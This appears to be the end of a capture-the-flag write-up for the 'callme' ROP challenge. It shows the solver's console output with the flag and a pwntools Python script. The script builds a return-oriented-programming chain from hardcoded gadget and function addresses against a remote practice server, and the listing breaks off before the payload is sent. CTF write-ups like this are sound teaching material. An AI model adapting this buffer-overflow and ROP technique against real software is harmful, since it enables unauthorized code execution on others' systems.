 ```bash
callme_one() called correctly
callme_two() called correctly
flag{singme_callme_by_your_name}
[*] Got EOF while reading in interactive
$ 
[*] Interrupted
[*] Closed connection to vunrotc.cole-ellis.com port 5300
```

## Full Exploit
Here is the full exploit:

{% code title="exploit.py" lineNumbers="true" %}
```python
from pwn import *

elf = context.binary = ELF("./callme")
libc = ELF("./libcallme.so")
p = remote('vunrotc.cole-ellis.com', 5300)

# important functions
f_callmeone = 0x0000000000400720
f_callmetwo = 0x0000000000400740
f_callmethree = 0x00000000004006f0

# data
v_first = 0xdeadbeefdeadbeef
v_second = 0xcafebabecafebabe
v_third = 0xd00df00dd00df00d

# gadgets
g_popRdiRdsiRdx = 0x000000000040093c
g_ret = 0x4006be

padding = b'A' * 40
ropChain = b''

# stack alignment
ropChain += p64(g_ret)

# callmeone
ropChain += p64(g_popRdiRdsiRdx)
ropChain += p64(v_first)
ropChain += p64(v_second)
ropChain += p64(v_third)
ropChain += p64(f_callmeone)

# callmetwo
ropChain += p64(g_popRdiRdsiRdx)
ropChain += p64(v_first)
ropChain += p64(v_second)
ropChain += p64(v_third)
ropChain += p64(f_callmetwo)

# callmethree
ropChain += p64(g_popRdiRdsiRdx)
ropChain += p64(v_first)
ropChain += p64(v_second)
ropChain += p64(v_third)
ropChain += p64(f_callmethree)

# send the payload
print(p.recvuntil(b'> '))
```